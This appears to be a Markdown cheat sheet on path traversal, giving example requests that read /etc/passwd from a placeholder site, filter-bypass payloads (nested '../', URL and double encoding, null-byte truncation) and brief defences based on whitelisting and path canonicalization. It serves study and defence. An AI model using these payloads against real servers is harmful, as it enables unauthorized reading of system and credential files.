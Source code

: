 # Path traversal

## General info
- ` <img src="/loadImage?filename=218.png"> `
- An attacker can request the following URL to retrieve the /etc/passwd file from the server's filesystem
- ` https://insecure-website.com/loadImage?filename=../../../etc/passwd `
- On Windows, both `../` and `..\` are valid directory traversal sequences

## Bypass defences
- elimination (strip):  `../ ` -> `....// `
  - Test: try to change the orginal request `GET /image?filename=1.jpg` to `GET /image?filename=../1.jpg`
  - If the file is loaded the code strip `../`
- encode: ` %2e%2e%2f `
- double-encode: ` %252e%252e%252f `
- require to start with the expected base folder es. `/var/www/images` -> `filename=/var/www/images/../../../etc/passwd`
- require to end with an expected file extension es. `.png` -> `filename=../../../etc/passwd%00.png`
- others

## Suggestions
- Don't always trust error messages
  - `GET /image?filename=/etc/passwd` ---> "No such file"
    - Try to add null byte: `GET /image?filename=/etc/passwd%00`
    - Try to add null byte and extension: `GET /image?filename=/etc/passwd%00.png`
- Combine the cases:
  - Example: `....//....//....//etc/passwd%00.jpg` (strip, double-encode, null byte, whitelist exstension)
  - `%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252F%252E%252E%252E%252E%252F%252Fetc%252Fpasswd%252500%252Ejpg`

## Defences
- Avoid passing user-supplied input to filesystem APIs
- Use two layers of defense to prevent attacks
  - Validate the user input before processing it. Ideally, compare the user input with a whitelist of permitted values. If that isn't possible, verify that the input contains only permitted content, such as alphanumeric characters only.
  - After validating the supplied input, append the input to the base directory and use a platform filesystem API to canonicalize the path. Verify that the canonicalized path starts with the expected base directory.
